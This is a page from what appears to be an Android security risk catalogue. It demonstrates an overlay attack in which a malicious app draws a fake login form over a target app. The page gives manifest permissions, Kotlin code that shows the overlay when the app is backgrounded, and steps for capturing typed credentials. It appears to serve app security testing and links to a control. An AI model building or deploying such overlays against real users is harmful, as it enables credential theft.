


## android-platform-feature-04-risk-01

### Title

Drawing over its user interface with a malicious application

### Description

Draw over the application's user interface using a malicious application to steal usernames and passwords (MITRE ATT&CK: ***Credential Access*** - TA0031).

### Demonstration

#### 01. Prepare the environment

Set up the required environment with:

* A physical Samsung A34 running Android 16 (api level 36)
* A physical Huawei P50 Pro running HarmonyOS 4.2.0 (Android API level 31)

#### 02. Create a malicious application

Create a malicious application by adding the `android.permission.SYSTEM_ALERT_WINDOW` permission to the manifest and implementing logic to invoke `windowManager.addView()` (e.g., within `showOverlay()`) to display an overlay when the malicious application runs in the background.

```xml
<uses-permission
    android:name="android.permission.WAKE_LOCK" />
<!-- An intervening permission is cut off at the right edge of the screenshot. -->
<uses-permission
    android:name="com.google.android.c2dm.permission.RECEIVE" />
<uses-permission
    android:name="android.permission.SYSTEM_ALERT_WINDOW" />
<application
    android:allowBackup="true"
    android:appComponentFactory="androidx.core.app.CoreComponentFactory"
    android:icon="@mipmap/app_icon"
```

*Code block shows Manifest.xml file with `android.permission.SYSTEM_ALERT_WINDOW` permission*

```kotlin
private fun checkIfAppInBackground() {
    val isInBackground = isAppInBackground()

    if (isInBackground && !isOverlayShowing) {
        // App is in background, show overlay
        Log.d(TAG, "App backgrounded - showing overlay")
        showOverlay()
    } else if (!isInBackground && isOverlayShowing) {
        // App is back in foreground, hide overlay
        Log.d(TAG, "App in foreground - hiding overlay")
        hideOverlay()
    }
}

private fun isAppInBackground(): Boolean {
    val activityManager = getSystemService(Context.ACTIVITY_SERVICE) as ActivityManager
    val runningProcesses = activityManager.runningAppProcesses ?: return false

    for (processInfo in runningProcesses) {
        if (processInfo.importance == ActivityManager.RunningAppProcessInfo.IMPORTANCE_FOREGROUND) {
            for (activeProcess in processInfo.pkgList) {
                if (activeProcess == packageName) {
                    // Our app is in foreground
                    return false
                }
```

*Code block shows implementation of malicious overlay function*

```kotlin
private fun showOverlay() {
    try {
        if (overlayView != null) return // Already showing

        Log.d(TAG, "Creating overlay view...")

        val inflater = getSystemService(LAYOUT_INFLATER_SERVICE) as LayoutInflater
        overlayView = inflater.inflate(R.layout.overlay_layout, null)

        val layoutType = if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            WindowManager.LayoutParams.TYPE_APPLICATION_OVERLAY
        } else {
            WindowManager.LayoutParams.TYPE_PHONE
        }

        val params = WindowManager.LayoutParams(
            WindowManager.LayoutParams.MATCH_PARENT,
            WindowManager.LayoutParams.WRAP_CONTENT,
            layoutType,
			WindowManager.LayoutParams.FLAG_NOT_TOUCH_MODAL,
            PixelFormat.TRANSLUCENT
        )

        params.gravity = Gravity.CENTER

        windowManager?.addView(overlayView, params)
        isOverlayShowing = true
```

*Code block shows implementation of show overlay function*

The overlay must be focusable to receive keyboard input. Design `overlay_layout` to imitate the target app's sign-in form, with username and password fields, and save what the user types into it.

#### 03. Install the malicious application

Install the malicious application on the device, perform the steps listed in [android-platform-feature-04](android-platform-feature-04.md), and then launch the application.

```cmd
adb install <malicious_apk>
```

*Code block installs malicious APK*


*Screenshot shows an overlay displayed above the target application's interface.*

#### 04. Allow the malicious application to display over other apps

Navigate to `Settings → Apps → Special app access → Display over other apps`, select the malicious application, and turn on `Allow display over other apps`.



*Screenshot shows the list of applications in `Display over other apps` settings.*

#### 05. Trigger the overlay over the target app

Launch the malicious application, then open the target app's sign-in screen. The malicious application shows its overlay once it moves to the background.



*Screenshot shows the `Allow display over other apps` toggle enabled for an application.*

#### 06. Check for captured input

Enter test credentials into the overlay, then open the malicious application and confirm it recorded them.

Android-Platform-Feature-04-Risk-01 control measures:

- [android-platform-feature-04-risk-01-control-01](android-platform-feature-04-risk-01-control-01.md)
